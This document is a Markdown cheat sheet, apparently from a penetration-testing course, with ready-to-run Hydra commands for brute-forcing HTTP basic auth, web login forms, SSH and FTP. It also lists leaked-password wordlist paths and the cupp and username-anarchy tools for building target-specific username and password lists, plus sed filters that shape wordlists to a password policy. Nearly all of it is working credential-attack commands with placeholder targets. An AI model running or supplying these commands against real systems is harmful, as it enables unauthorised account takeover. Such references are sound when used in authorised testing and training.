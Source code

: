 # Hydra

| **Command**   | **Description**   |
| --------------|-------------------|
| `hydra -h` | hydra help |
| `hydra -C wordlist.txt SERVER_IP -s PORT http-get /` | Basic Auth Brute Force - Combined Wordlist |
| `hydra -L wordlist.txt -P wordlist.txt -u -f SERVER_IP -s PORT http-get /` | Basic Auth Brute Force - User/Pass Wordlists |
| `hydra -l admin -P wordlist.txt -f SERVER_IP -s PORT http-post-form "/login.php:username=^USER^&password=^PASS^:F=<form name='login'"` | Login Form Brute Force - Static User, Pass Wordlist |
| `hydra -L bill.txt -P william.txt -u -f ssh://SERVER_IP:PORT -t 4` | SSH Brute Force - User/Pass Wordlists |
| `hydra -l m.gates -P rockyou-10.txt ftp://127.0.0.1` | FTP Brute Force - Static User, Pass Wordlist |

# Wordlists

| **Command**   | **Description**   |
| --------------|-------------------|
| `/opt/useful/SecLists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt` | Default Passwords Wordlist |
| `/opt/useful/SecLists/Passwords/Leaked-Databases/rockyou.txt` | Common Passwords Wordlist |
| `/opt/useful/SecLists/Usernames/Names/names.txt` | Common Names Wordlist |

# Misc

| **Command**   | **Description**   |
| --------------|-------------------|
| `cupp -i` | Creating Custom Password Wordlist |
| `sed -ri '/^.{,7}$/d' william.txt` | Remove Passwords Shorter Than 8 |
| ```sed -ri '/[!-/:-@\[-`\{-~]+/!d' william.txt``` | Remove Passwords With No Special Chars |
| `sed -ri '/[0-9]+/!d' william.txt` | Remove Passwords With No Numbers |
| `./username-anarchy Bill Gates > bill.txt` | Generate Usernames List |
| `ssh b.gates@SERVER_IP -p PORT` | SSH to Server |
| `ftp 127.0.0.1` | FTP to Server |
| `su - user` | Switch to User |
